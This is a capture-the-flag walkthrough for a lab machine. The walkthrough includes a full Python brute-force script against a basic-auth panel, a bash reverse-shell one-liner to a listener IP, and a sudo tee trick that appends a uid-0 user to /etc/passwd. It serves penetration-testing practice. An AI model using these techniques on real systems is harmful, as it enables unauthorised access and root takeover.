









This box is rated medium difficulty on THM, it involves us brute forcing a login panel, exploiting a known vulnerability within the Codiad framework, and escalating privileges to root by writing to sensitive files. 

_Real Life machine + CTF. The machine is designed to be real-life (maybe not?) and is perfect for newbies starting out in penetration testing_

## Scanning & Enumeration
As always, I start off with an Nmap scan on the given IP to find running services.

```
$ sudo nmap -p- MACHINE_IP -oN fullscan-tcp
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  tcpwrapped    syn-ack
22/tcp    open  ssh           syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBR1uDh8+UHIoUl3J5AJApSgrmxFtvWtauxjTLxH9B5s9E0SThz3fljXo7uSL+2hjphfHyqrdAxoCGQJgRn/o5xGDSpoSoORBIxv1LVaZJlt/eIEhjDP48NP9l/wTRki9zZl5sNVyyyy/lobAj6BYH+dU3g++2su9Wcl0wmFChG5B2Kjrd9VSr6TC0XJpGfQxu+xJy29XtoTzKEiZCoLz3mZT7UqwsSgk38aZjEMKP9QDc0oa5v4JmKy4ikaR90CAcey9uIq8YQtSj+US7hteruG/HLo1AmOn9U3JAsVTd4vI1kp+Uu2vWLaWWjhfPqvbKEV/fravKSPd0EQJmg1eJ
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKFhVdH50NAu45yKvSeeMqyvWl1aCZ1wyrHw2MzGY5DVosjZf/rUzrdDRS0u9QoIO4MpQAvEi7w7YG7zajosRN8=
|   256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAdzynTIlsSkYKaqfCAdSx5J2nfdoWFw1FcpKFIF8LRv
23/tcp    open  tcpwrapped    syn-ack
25/tcp    open  tcpwrapped    syn-ack
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http          syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
88/tcp    open  tcpwrapped    syn-ack
106/tcp   open  pop3pw?       syn-ack
110/tcp   open  tcpwrapped    syn-ack
389/tcp   open  tcpwrapped    syn-ack
464/tcp   open  tcpwrapped    syn-ack
636/tcp   open  tcpwrapped    syn-ack
777/tcp   open  tcpwrapped    syn-ack
783/tcp   open  tcpwrapped    syn-ack
808/tcp   open  ccproxy-http? syn-ack
873/tcp   open  tcpwrapped    syn-ack
1001/tcp  open  webpush?      syn-ack
1236/tcp  open  tcpwrapped    syn-ack
1300/tcp  open  tcpwrapped    syn-ack
2000/tcp  open  tcpwrapped    syn-ack
2003/tcp  open  tcpwrapped    syn-ack
2121/tcp  open  tcpwrapped    syn-ack
2601/tcp  open  tcpwrapped    syn-ack
2602/tcp  open  tcpwrapped    syn-ack
2604/tcp  open  tcpwrapped    syn-ack
2605/tcp  open  tcpwrapped    syn-ack
2607/tcp  open  tcpwrapped    syn-ack
2608/tcp  open  tcpwrapped    syn-ack
4224/tcp  open  tcpwrapped    syn-ack
5051/tcp  open  tcpwrapped    syn-ack
5432/tcp  open  tcpwrapped    syn-ack
5555/tcp  open  tcpwrapped    syn-ack
5666/tcp  open  tcpwrapped    syn-ack
6346/tcp  open  tcpwrapped    syn-ack
6566/tcp  open  tcpwrapped    syn-ack
6667/tcp  open  tcpwrapped    syn-ack
|_irc-info: Unable to open connection
8021/tcp  open  tcpwrapped    syn-ack
8081/tcp  open  tcpwrapped    syn-ack
|_mcafee-epo-agent: ePO Agent not found
8088/tcp  open  radan-http?   syn-ack
9418/tcp  open  tcpwrapped    syn-ack
10000/tcp open  tcpwrapped    syn-ack
10082/tcp open  tcpwrapped    syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We get a whole lot of stuff back from that. Seeing as 90 ports are open, i'll start with the more normal and easier things to enumerate such as FTP, Telnet, and HTTP.



Checking the landing page on port 80 shows a quote from Dante's Inferno and a picture portraying the nine circles of hell. Not much info other than that so I start fuzzing for directories and subdomains.



I discover a login panel at /inferno and capturing the request in Burp Suite shows that our credentials are base64 encoded and sent as an Authorization header.



I'll throw a quick script together to brute force this panel. I use the usernames Dante, root, Admin, Lucifer, and Inferno alongside rockyou.txt. 

Here's the final product:

```
import base64
import requests
import sys
import threading
from concurrent.futures import ThreadPoolExecutor, as_completed

TARGET_URL = "http://10.66.170.239/inferno"

USERLIST = "users.txt"
PASSLIST = "/opt/SecLists/rockyou.txt"

THREADS = 20

BASE_HEADERS = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64)",
    "Accept": "*/*",
    "Connection": "keep-alive"
}

found = threading.Event()

def encode_creds(username, password):
    creds = f"{username}:{password}"
    return base64.b64encode(creds.encode()).decode()

def attempt_login(session, user, password):
    if found.is_set():
        return

    auth_value = encode_creds(user, password)
    headers = BASE_HEADERS.copy()
    headers["Authorization"] = f"Basic {auth_value}"

    try:
        r = session.get(TARGET_URL, headers=headers, timeout=5, allow_redirects=False)

        if r.status_code == 200:
            print(f"\n[+] SUCCESS: {user}:{password}")
            found.set()
            sys.exit(0)

    except requests.RequestException:
        pass

def main():
    with open(USERLIST) as ufile:
        users = [u.strip() for u in ufile]

    session = requests.Session()

    with ThreadPoolExecutor(max_workers=THREADS) as executor:
        futures = []

        for user in users:
            with open(PASSLIST, encoding="latin-1") as pfile:
                for password in pfile:
                    if found.is_set():
                        break

                    password = password.strip()
                    futures.append(
                        executor.submit(attempt_login, session, user, password)
                    )

        for _ in as_completed(futures):
            if found.is_set():
                break

    print("[-] No valid credentials found.")

if __name__ == "__main__":
    main()
```

You can totally do this with Hydra too but I felt like making my own script. Either way, letting that run for a bit returns a successful login as Admin and we gain access to Codiad (a web-based IDE framework).



I check Searchsploit for any quick wins and find that there are four PoCs for Authenticated RCE.

I use [this one](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit) created by WangYihang. Supplying all parameters resolves our request to a 401 unauthorized error, this is because we had to sign in at the pop up as well as the Codiad login panel.



Since we captured that request from earlier, I know it's just basic auth and we can provide the creds by prepending `admin:password@` to our URL.

This exploit also requires us to setup two listeners using:

```
echo 'bash -c "bash -i >/dev/tcp/192.168.144.73/9002 0>&1 2>&1"' | nc -lnvp 9001
```

&

```
nc -lnvp 9002
```

_Note: The port and IP will be the one you provided, so change accordingly._

Now that we have a shell as www-data, I look around the system for anyone creds laying around and in /home for any user's personal info. It seems like the system executes a cronjob or something like it to run an exit command every minute or so. Better find something quick!



I discover a file under /home/dante/Downloads containing lines of hexadecimal values. Decoding this gives us some Italian literature and Dante's SSH credentials.



With a stable shell we can grab the first flag under Dante's home directory and begin looking for ways to escalate privileges to root.

I see that we have access to run the tee binary as root user without a password. [GTFOBins](https://gtfobins.github.io/gtfobins/tee/#file-write) has a method for us to write to a file without having privileges over it.



You can grab a root shell many ways, for example echoing an SSH key into `/root/.ssh/authorized_keys` or adding a line to the `/etc/sudoers` file, however I'll be adding another user with root's uid to `/etc/passwd` so we can switch to their account with ease.

First we can create a hash for the user with:

```
openssl passwd -1 -salt USERNAME PASSWORD
```

Then, we add it to `/etc/passwd` using:

```
echo "USERNAME:HASH:0:0:root:/root:/bin/bash" | sudo tee -a /etc/passwd
```

_Note: You will have to character escape the $ signs with a backslash because we are using echo here._



All that's left is to grab the final flag under root's home directory and finish the box. I hope this was helpful to anyone stuck or following along and happy hacking!

